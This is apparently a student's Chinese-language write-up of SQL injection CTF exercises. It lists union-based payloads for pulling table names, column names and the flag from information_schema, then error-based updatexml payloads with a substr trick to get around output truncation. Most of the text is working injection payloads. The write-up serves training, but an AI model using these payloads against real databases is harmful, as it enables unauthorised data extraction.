

              # 第三周sql注入的题目练习内容

这道题的第一步是先看他有没有注入点，我们在这里先试一个1

第2步：爆表名
复制这段去地址栏回车：
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()

经过这一步，我们就成功拿到了他的表名

第3步：爆字段名
复制这段去地址栏回车：
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'

这个时候我们离成功已经不远了，因为这个flag已经显现出来了，只需要最后两三步了

第三步：拿 Flag
复制这段去地址栏回车：
-1 union select 1,flag from flag

最后也是成功拿下那个flag

## 题目：SQL 报错注入
我依次尝试了1'  和1'' 这道题目他都会报错，说明这并不是字符型的，而是是单纯的数字型，为了验证这个想法，我输入了一没想到就通过了

2. 我使用 updatexml 爆出数据库名
输入 Payload：1  and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+`
页面报错，并在错误信息中成功带出了当前数据库名

## 4. 获取 Flag

输入 Payload：`1 and updatexml(1,concat(0x7e,(select flag from flag),0x7e),1)#

##最后一步就是，但是我发现这个写的字符不够32个，就是因为这个字段最多只能显示32个字符，他已经被截断了，所以我还需要用函数把后面的两个字符给弄出来，然后我就想用了substr，输入的语句是1 and updatexml(1,make_set(3, 0x7e, substr((select flag from flag limit 0,1), 31, 30)),1)#

随后我查看了这道题的 WP，我发现它有一种更简单的写法，我把它复制到这里。原来可以直接用 `select`。

